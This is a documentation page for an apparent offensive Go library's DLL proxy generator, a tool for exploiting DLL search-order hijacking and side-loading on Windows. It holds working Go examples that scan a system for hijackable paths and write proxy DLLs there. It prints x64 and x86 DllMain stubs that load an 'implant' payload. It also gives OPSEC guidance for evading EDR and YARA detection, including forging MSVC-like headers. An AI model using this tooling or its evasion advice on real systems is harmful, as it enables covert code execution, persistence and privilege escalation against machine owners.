

# DLL Proxy Generator

[← PE techniques](README.md) · [docs/index](../../index.md)

**MITRE ATT&CK:** [T1574.001 — DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001/) · [T1574.002 — DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/)
**D3FEND:** [D3-PFV — Process File Verification](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/)
**Detection level:** very-quiet (offline emitter)

---

## TL;DR

You found a DLL-hijack opportunity (a victim program loads
`X.dll` from a path you can write). To exploit it you need a
working `X.dll` that:

1. Exports everything the victim expects (otherwise it crashes
   on first call to a missing export).
2. Forwards those calls to the real `X.dll` (otherwise the
   victim breaks).
3. Optionally runs your payload.

Historically this required hand-coding C++ + linker pragmas +
an MSVC toolchain, OR shipping a pre-built proxy and hoping
the export set matches. `pe/dllproxy` makes it a single Go
function call — pure-Go emitter, runs on Linux, no toolchain.

Pick the mode based on what you need:

| You want… | Set | Effect |
|---|---|---|
| Pure forwarder (testing the hijack works without delivering a payload yet) | `Options.PayloadDLL = ""` | Single `.rdata` section, no DllMain. Once loaded, invisible at runtime — the real target executes as if loaded directly. |
| Forwarder + payload load | `Options.PayloadDLL = "evil.dll"` | Adds `.text` with a 32-byte x64 stub: `LoadLibraryA("evil.dll")` on `DLL_PROCESS_ATTACH`. Your payload runs ONCE on load; forwarding handles the rest. |

What this DOES achieve:

- Victim loads your DLL → your payload runs → all subsequent
  victim calls forward transparently.
- No toolchain on the build host. Pure Go, cross-compiles from
  Linux.
- The forwarder uses `\\.\GLOBALROOT\SystemRoot\System32\<target>.<export>`
  — absolute path that doesn't recurse into your proxy even
  when both DLLs share a directory.

What this does NOT achieve:

- **Doesn't find the hijack opportunity** — pair with
  [`recon/dllhijack`](../recon/dll-hijack.md) for the
  discovery side.
- **Doesn't list the target's exports** — pair with
  [`pe/parse`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/parse).Open(target).Exports().
- **Detectable on disk** — the forwarder string set + 32-byte
  stub are static signatures defenders can YARA on. Pair with
  [`pe/strip`](strip-sanitize.md) + [`pe/cert`](certificate-theft.md)
  to muddy the static fingerprint.

---

## Primer — vocabulary

Five terms recur on this page:

> **DLL hijack / side-load** — a victim program loads a DLL by
> name from a search path that includes a directory the operator
> can write to. The operator drops a malicious DLL with the
> matching name; the victim loads it instead of the legitimate
> one.
>
> **Forwarder export** — a DLL export entry whose
> `AddressOfFunctions[i]` value points at a STRING (not at code).
> The string format is `"OtherDLL.OtherExport"` or
> `"\\path\\to\\OtherDLL.OtherExport"`. The Windows loader
> recognises this by checking if the value falls inside the
> `IMAGE_DIRECTORY_ENTRY_EXPORT` range — if yes, it's a string
> to follow, not code to call.
>
> **GLOBALROOT trick** — using `\\.\GLOBALROOT\SystemRoot\System32\X.dll`
> as the forwarder target. `GLOBALROOT` is the NT object manager
> root; `SystemRoot` resolves to `C:\Windows`. The combination
> is an absolute path that bypasses the search order entirely —
> guaranteed to find the *real* `X.dll`, never the proxy itself
> even when both share the victim's directory.
>
> **DllMain** — a DLL's optional entry point Windows calls on
> load (`DLL_PROCESS_ATTACH`), unload (`DLL_PROCESS_DETACH`),
> and thread create/exit. `pe/dllproxy` uses it ONLY in
> payload-load mode — the entry point is a 32-byte stub that
> `LoadLibraryA(payload)` and returns TRUE.
>
> **Perfect proxy** — the term `mrexodia/perfect-dll-proxy`
> coined for proxies that reliably handle every export with the
> right ABI without recursion. The GLOBALROOT trick is the
> "perfect" part: forwarders to a relative `target.export`
> would loop into your own proxy.



---

## How It Works

The forwarder-only mode produces a minimal PE32+ image with a single `.rdata` section. No `.text`, no `.idata`, `AddressOfEntryPoint = 0` — Windows accepts this layout (a DLL with no entry point loads silently without invoking DllMain, per the PE spec).

The payload-load mode adds a `.text` section with the DllMain stub, an import directory in `.rdata` referencing `kernel32!LoadLibraryA`, and the payload-name string the stub feeds to `LoadLibraryA`.

### File layout

```text
+0x000  DOS header (60 bytes)            e_lfanew = 0x40
+0x040  PE signature "PE\0\0"
+0x044  COFF File Header (20)            Machine = 0x8664, NumberOfSections = 1
+0x058  Optional Header PE32+ (240)      Magic = 0x20B, ImageBase = 0x180000000,
                                          AddressOfEntryPoint = 0,
                                          DllCharacteristics = NX_COMPAT
+0x148  Section Header (40)              ".rdata", flags 0x40000040
+0x170  pad zero to FileAlignment 0x200
+0x200  .rdata content
```

### `.rdata` content (RVA = 0x1000)

```text
+0       IMAGE_EXPORT_DIRECTORY (40)
+40      AddressOfFunctions[N]            uint32 each — RVA into the same .rdata,
                                           pointing at a forwarder string
+40+4N   AddressOfNames[N]                uint32 — RVA to export name string
+40+8N   AddressOfNameOrdinals[N]         uint16 — identity map (i → i)
+40+10N  DLL name string                  "<targetName>\0"
…        forwarder strings                "\\.\GLOBALROOT\SystemRoot\System32\target.dll.<export>\0"
…        export name strings              "<export>\0"
```

### Forwarder detection

The Windows loader detects a forwarder by RVA range: an export is a forwarder iff its `AddressOfFunctions[i]` value falls **inside** the `IMAGE_DIRECTORY_ENTRY_EXPORT.VirtualAddress … +Size` range. The emitter sizes the data directory to span the entire `.rdata` content, so every forwarder string sits inside the range automatically.

### Sorting

Windows performs a binary search on `AddressOfNames` when resolving exports by name. The emitter sorts the input list alphabetically before laying out the tables — `AddressOfNameOrdinals[i]` is always `i`, the identity map.

---

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/pe/dllproxy`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/dllproxy) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — bake a proxy for `version.dll`

```go
import (
    "os"

    "github.com/oioio-space/maldev/pe/dllproxy"
    "github.com/oioio-space/maldev/pe/parse"
)

f, _ := parse.Open(`C:\Windows\System32\version.dll`)
exports, _ := f.Exports()
proxy, _ := dllproxy.Generate("version.dll", exports, dllproxy.Options{})
_ = os.WriteFile(`C:\writable\dir\version.dll`, proxy, 0o644)
```

### ExportsFromBytes — one-shot named-export extraction

`func ExportsFromBytes(peBytes []byte) ([]Export, error)`

Parses a target DLL's bytes via `pe/parse.FromBytesFast` and
returns its named exports already shaped for `GenerateExt` /
`packer.PackProxyDLL`. Ordinal-only entries are skipped (the
forwarder emitter currently only builds `<target>.<name>`
strings). Empty result is non-fatal — the caller decides.

```go
dll, _ := os.ReadFile(`C:\Vulnerable\fakelib.dll`)
exports, err := dllproxy.ExportsFromBytes(dll)
if err != nil {
    log.Fatal(err)
}
proxy, _ := dllproxy.GenerateExt("fakelib", exports, dllproxy.Options{})
```

End-to-end consumer:
[`examples/privesc-dll-hijack`](../../../examples/privesc-dll-hijack/README.md) (Mode 10
re-reads `fakelib.dll` from the target post-drop so an operator
could swap it for any DLL between runs).

### Composed — find an opportunity and bake a matching payload

```go
opps, _ := dllhijack.ScanAll(nil)
for _, opp := range opps {
    f, err := parse.Open(opp.LegitimatePath)
    if err != nil { continue }
    exports, _ := f.Exports()
    f.Close()

    proxy, err := dllproxy.Generate(opp.MissingDLL, exports, dllproxy.Options{})
    if err != nil { continue }

    _ = os.WriteFile(opp.HijackedPath, proxy, 0o644)
}
```

### 32-bit targets (`MachineI386`)

Setting `Options.Machine = dllproxy.MachineI386` switches the emitter to PE32 output for hijacking legacy WOW64 victims. The forwarder-only path produces a 224-byte optional header (vs 240 for PE32+), `IMAGE_FILE_32BIT_MACHINE` in the COFF flags, ImageBase 0x10000000, and a 32-bit `BaseOfData`.

The Phase 2 payload-load path swaps the AMD64 stub for a 28-byte x86 stdcall stub:

```text
mov eax, [esp+8]              ; reason
cmp eax, 1                    ; DLL_PROCESS_ATTACH
jne ret_true
push <payload_str_abs>
call dword ptr [<iat_abs>]
ret_true:
mov eax, 1
ret 0Ch                       ; stdcall: pop 3*4 bytes of args
```

x86 has no RIP-relative addressing, so the stub embeds absolute virtual addresses (ImageBase + RVA). The emitter keeps `IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE` off, so the loader honours the embedded ImageBase and the absolutes resolve correctly.

```go
out, err := dllproxy.Generate("version.dll", exports, dllproxy.Options{
    Machine:    dllproxy.MachineI386,
    PayloadDLL: "implant32.dll",
})
```

### Mixed named + ordinal-only exports

Some Windows DLLs (msvcrt, ws2_32, comctl32 in legacy comdlg roles) ship a substantial fraction of exports as ordinal-only — they appear in `IMAGE_EXPORT_DIRECTORY.AddressOfFunctions` but have no entry in `AddressOfNames`. Proxying these targets requires the loader to find the right slot when a victim imports `target.dll!#42` instead of `target.dll!Foo`.

```go
import (
    "github.com/oioio-space/maldev/pe/dllproxy"
    "github.com/oioio-space/maldev/pe/parse"
)

f, _ := parse.Open(`C:\Windows\System32\msvcrt.dll`)
entries, _ := f.ExportEntries() // []parse.Export with Name+Ordinal+Forwarder

mapped := make([]dllproxy.Export, len(entries))
for i, e := range entries {
    mapped[i] = dllproxy.Export{Name: e.Name, Ordinal: e.Ordinal}
}

proxy, _ := dllproxy.GenerateExt("msvcrt.dll", mapped, dllproxy.Options{})
```

The emitter:

- Sorts entries by ordinal ascending.
- Sets `Base = lowest_ordinal`, `NumberOfFunctions = highest_ordinal − Base + 1`. Sparse slots (ordinals not present in input) leave their `AddressOfFunctions` entry zero — the loader treats those as "not exported at this ordinal", same as a real DLL.
- Emits forwarder strings in the form `<target>.<name>` for named entries and `<target>.#<ordinal>` for ordinal-only.
- Builds `AddressOfNames` from the named subset only, sorted alphabetically (loader binary search).

### Advanced — DllMain payload load

```go
proxy, err := dllproxy.Generate(
    target,
    exports,
    dllproxy.Options{PayloadDLL: "implant.dll"},
)
```

The proxy now contains a tiny x64 entry point that runs once on `DLL_PROCESS_ATTACH`:

```text
cmp edx, 1                       ; fdwReason == DLL_PROCESS_ATTACH ?
jne ret_true
sub rsp, 28h                     ; Win64 shadow space + 16-byte align
lea rcx, [rip+payload_string]    ; LPCSTR lpLibFileName
call qword ptr [rip+iat_loadlibrarya]
add rsp, 28h
ret_true:
mov eax, 1
ret
```

The Windows loader resolves the IAT slot for `kernel32!LoadLibraryA` before our entry point runs, so the indirect call lands directly in `kernel32`. Failure of `LoadLibraryA` is silent — the proxy still returns TRUE, the legitimate forwarders still work, the only signal is the absence of the payload.

### Advanced — alternate path scheme

`PathSchemeSystem32` produces shorter, more readable forwarder strings but **recurses into self if deployed in System32**. Safe only for hijack opportunities outside System32 (almost all real ones).

```go
proxy, err := dllproxy.Generate(
    "credui.dll",
    exports,
    dllproxy.Options{PathScheme: dllproxy.PathSchemeSystem32},
)
```

### Advanced — MSVC-shaped output (DOS stub + CheckSum)

For deployments where defenders fingerprint on the absence of a
real DOS stub or a zero-valued optional-header `CheckSum`, both
flags can be flipped:

```go
proxy, _ := dllproxy.Generate("version.dll", exports, dllproxy.Options{
    DOSStub:       true, // canonical "This program cannot be run in DOS mode."
    PatchCheckSum: true, // ImageHlp!CheckSumMappedFile-equivalent
})
```

`DOSStub` bumps `e_lfanew` from 0x40 to 0x80 and embeds the canonical 128-byte MSVC DOS block.
`PatchCheckSum` reuses `pe/cert.PatchPECheckSum` after assembly so the field is non-zero and self-consistent.

---

## OPSEC & Detection

| Phase | Telemetry | Counter |
|---|---|---|
| Emission (offline) | None — pure Go, no syscalls, no file opens. | N/A |
| File write to opportunity path | File create event under `<writable dir>\<dllname>` matches D3-PFV signatures (DLL appearing in non-canonical path next to a PE that imports it). | Drop into a path the EDR doesn't actively watch; randomise drop time. |
| Process load | `\\.\GLOBALROOT\SystemRoot\System32\…` paths in image-load events stand out — most legitimate DLLs are loaded by short module name only. | Use `PathSchemeSystem32` when System32 redirection is not a concern. |
| Forwarder strings on disk | YARA / static-analysis tools matching the GLOBALROOT prefix. | Hex-rotate / RC4 the strings at emission time, decrypt at DllMain (Phase 2 + obfuscation, future work). |

---

## MITRE ATT&CK

| T-ID | Name | D3FEND counter |
|---|---|---|
| [T1574.001](https://attack.mitre.org/techniques/T1574/001/) | Hijack Execution Flow: DLL Search Order Hijacking | [D3-PFV](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/) |
| [T1574.002](https://attack.mitre.org/techniques/T1574/002/) | Hijack Execution Flow: DLL Side-Loading | [D3-PFV](https://d3fend.mitre.org/technique/d3f:ProcessFileVerification/) |

---

## Limitations

- **COM-private semantics**. The MSVC `,PRIVATE` linker directive only excludes a symbol from the import library so downstream `.lib`-based linkers ignore it; at runtime the export is binary-identical to a regular named export. `pe/dllproxy` does not need a separate code path — pass `DllRegisterServer` & friends as ordinary `Export{Name: …}` entries.
- **CheckSum + DOS stub are now opt-in.** `Options.PatchCheckSum` recomputes IMAGE_OPTIONAL_HEADER.CheckSum (via `pe/cert.PatchPECheckSum`); `Options.DOSStub` emits the canonical 128-byte MSVC DOS block. Both default to false (preserves the historic minimal-MZ + zero-CheckSum output for callers that don't care).
- **Forwarder paths are plaintext** in `.rdata` — easy YARA target. String obfuscation is a Phase 2 candidate.

---

## See also

- [`recon/dllhijack`](../recon/dll-hijack.md) — discovery side of the same chain
- [`pe/parse`](https://pkg.go.dev/github.com/oioio-space/maldev/pe/parse) — extracts the input export list
- `mrexodia/perfect-dll-proxy` — original GLOBALROOT path trick (C++/Python)
- `namazso/dll-proxy-generator` — Rust binary tool we're matching the output shape of
